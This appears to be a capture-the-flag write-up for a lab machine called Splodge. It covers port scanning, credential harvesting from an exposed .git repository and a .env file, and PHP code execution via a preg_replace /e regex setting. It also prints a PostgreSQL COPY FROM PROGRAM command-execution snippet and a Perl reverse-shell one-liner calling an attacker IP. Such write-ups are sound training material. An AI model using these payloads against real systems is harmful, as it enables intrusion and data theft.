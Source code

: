 # Splodge

## Gaining Access

Nmap scan:

```
$ nmap -p- --min-rate 3000 -Pn 192.168.157.108
Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-16 10:08 +08
Nmap scan report for 192.168.157.108
Host is up (0.17s latency).
Not shown: 65530 filtered tcp ports (no-response)
PORT     STATE SERVICE
22/tcp   open  ssh
80/tcp   open  http
1337/tcp open  waste
5432/tcp open  postgresql
8080/tcp open  http-proxy
```

Did a detailed scan for the web ports too:

```
$ sudo nmap -p 80,1337,8080 -sC -sV --min-rate 3000 192.168.157.108     
[sudo] password for kali: 
Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-16 10:09 +08
Nmap scan report for 192.168.157.108
Host is up (0.17s latency).

PORT     STATE SERVICE VERSION
80/tcp   open  http    nginx 1.16.1
|_http-server-header: nginx/1.16.1
| http-git: 
|   192.168.157.108:80/.git/
|     Git repository found!
|     .gitignore matched patterns 'bug' 'key'
|     .git/config matched patterns 'user'
|     Repository description: Unnamed repository; edit this file 'description' to name the...
|     Last commit message: initial commit 
|_    Project type: node.js application (guessed from .gitignore)
|_http-title: 403 Forbidden
1337/tcp open  http    nginx 1.16.1
|_http-server-header: nginx/1.16.1
|_http-title: Commando
8080/tcp open  http    nginx 1.16.1
|_http-title: Splodge | Home
|_http-server-header: nginx/1.16.1

Service detection performed. Please report any incorrect results at https://nmap.org/submit
```

There's a `.git` repository.

### Git Repo -> Creds

I downloaded the `.git` repository and looked through the logs with `git log -p -2`. However, it was way too long for me to analyse. Instead, I checked out the repository and checked for passwords:

```
$ grep -R password                                                 
database/migrations/2020_10_10_015036_create_settings_table.php:            $table->string('password');
database/seeds/DatabaseSeeder.php:            'password' => 'SplodgeSplodgeSplodge'
```

### Web Enum + Source Code -> RCE

Port 80 just showed us a 403 page, which was not helpful. Port 1337 did show some potential for RCE:

<figure><img src="../../../.gitbook/assets/image (2042).png" alt=""><figcaption></figcaption></figure>

However, I was unable to make anything happen. Port 8080 showed a blog page with an admin login:

<figure><img src="../../../.gitbook/assets/image (3407).png" alt=""><figcaption></figcaption></figure>

We can login to the admin panel using `admin:SplodgeSplodgeSplodge`:

<figure><img src="../../../.gitbook/assets/image (2708).png" alt=""><figcaption></figcaption></figure>

So now we know that the Git repository is for this application. This panel was rather interesting, because it has a 'Profanity Filter Regex' option, which I presume allows us to specify Regex strings within it.&#x20;

I was unable to find any source code for this Admin Panel specifically, but I can find some code to see what it does within `app/Http/Controllers`:

{% code title="PostController.php" %}
```php
public function comment(Request $request, Post $post)
    {
        error_reporting(E_ALL & ~E_NOTICE & ~E_DEPRECATED);
        $author = $request->input('commentAuthor');
        $message = $request->input('commentMessage');
        $settings = DB::table('settings')->first();
        $message = preg_replace($settings->filter, $settings->replacement, $message);
        DB::table('comments')->insert(['post_id' => $post->id, 'author' => $author, 'message' => $message]);
        $comments = DB::table('comments')->where('post_id', '=', $post->id)->get();
        return view('post', ['post' => $post, 'comments' => $comments]);
    }
```
{% endcode %}

It seems that there's a `preg_replace` function that replaces the regex matches with our replacement.&#x20;

Googling for PHP Regex exploits brings this up:

{% embed url="https://captainnoob.medium.com/command-execution-preg-replace-php-function-exploit-62d6f746bda4" %}

From the article above, we can use regex of `/a/e` to inject PHP code. I tested this out:

<figure><img src="../../../.gitbook/assets/image (3430).png" alt=""><figcaption></figcaption></figure>

Afterwards, I sent one comment with the letter 'a' in it. When I did, I got a hit on my HTTP server:

<figure><img src="../../../.gitbook/assets/image (3400).png" alt=""><figcaption></figcaption></figure>

We now have RCE over the machine, and we can easily get a reverse shell on port 8080:

<figure><img src="../../../.gitbook/assets/image (499).png" alt=""><figcaption></figcaption></figure>

## Privilege Escalation

### PostgresSQL Creds -> User Shell

We spawned in the `/usr/share/nginx/html` folder, which had a `.env` file:

```
bash-4.2$ ls -al
total 180
drwxr-xr-x. 12   501 games   4096 Oct 17  2020 .
drwxr-xr-x.  5 root  root      49 Oct 17  2020 ..
-rw-r--r--.  1   501 games    362 Oct 17  2020 .env
drwxr-xr-x.  8 root  root     166 Oct 17  2020 .git
-rw-r--r--.  1   501 games    111 Jul  4  2017 .gitattributes
-rw-r--r--.  1   501 games    146 Jul  4  2017 .gitignore
drwxr-xr-x.  7 root  root      98 Oct 17  2020 app
-rwxr-xr-x.  1 root  root    1646 Jul  4  2017 artisan
drwxr-xr-x.  3 root  root      54 Oct 17  2020 bootstrap
-rw-r--r--.  1 root  root    1300 Jul  4  2017 composer.json
-rw-r--r--.  1 root  root  144904 Oct 11  2020 composer.lock
drwxr-xr-x.  2 root  root     209 Oct 17  2020 config
drwxr-xr-x.  5 root  root      90 Oct 17  2020 database
-rw-r--r--.  1 root  root    1043 Jul  4  2017 phpunit.xml
drwxr-xr-x.  3 root  root      71 Oct 17  2020 public
drwxr-xr-x.  5 root  root      45 Oct 17  2020 resources
drwxr-xr-x.  2 root  root      75 Oct 17  2020 routes
-rw-r--r--.  1 root  root     563 Jul  4  2017 server.php
drwxr-xr-x.  5 nginx nginx     46 Oct 17  2020 storage
drwxr-xr-x. 32 root  root    4096 Oct 11  2020 vendor

bash-4.2$ cat .env
APP_NAME=Splodge
APP_ENV=local
APP_KEY=base64:F9jFCNy0vJ1GhEsbf+PjmTSSHk8u741C5XNTN1Rguow=
APP_DEBUG=false
APP_LOG_LEVEL=info
APP_URL=http://splodge.offsec

DB_CONNECTION=pgsql
DB_HOST=127.0.0.1
DB_PORT=5432
DB_DATABASE=splodge
DB_USERNAME=postgres
DB_PASSWORD=PolicyWielderCandle120

BROADCAST_DRIVER=log
CACHE_DRIVER=file
SESSION_DRIVER=file
QUEUE_DRIVER=sync
```

There's a database password there. We can then login with `psql` after fixing the `PATH` variable of this shell:

{% code overflow="wrap" %}
```
bash-4.2$ export PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/local/games:/usr/games:$PATH

bash-4.2$ psql -U postgres -d splodge -h localhost
Password for user postgres: 
psql (12.4)
Type "help" for help.

splodge=# 
```
{% endcode %}

There's a feature within PostgreSQL that allows us to execute commands:

```sql
DROP TABLE IF EXISTS cmd_exec;
CREATE TABLE cmd_exec(cmd_output text);
COPY cmd_exec FROM PROGRAM 'id';
SELECT * FROM cmd_exec;
DROP TABLE IF EXISTS cmd_exec;
```

<figure><img src="../../../.gitbook/assets/image (1859).png" alt=""><figcaption></figcaption></figure>

We can just get another reverse shell using this:

{% code overflow="wrap" %}
```sql
COPY cmd_exec FROM PROGRAM 'perl -MIO -e ''$p=fork;exit,if($p);$c=new IO::Socket::INET(PeerAddr,"192.168.45.196:8080");STDIN->fdopen($c,r);$~->fdopen($c,w);system$_ while<>;''';
```
{% endcode %}

<figure><img src="../../../.gitbook/assets/image (2400).png" alt=""><figcaption></figcaption></figure>

The payload is taken from Hacktricks.

### Root

User can run `bash` as `root`:

<figure><img src="../../../.gitbook/assets/image (494).png" alt=""><figcaption></figcaption></figure>
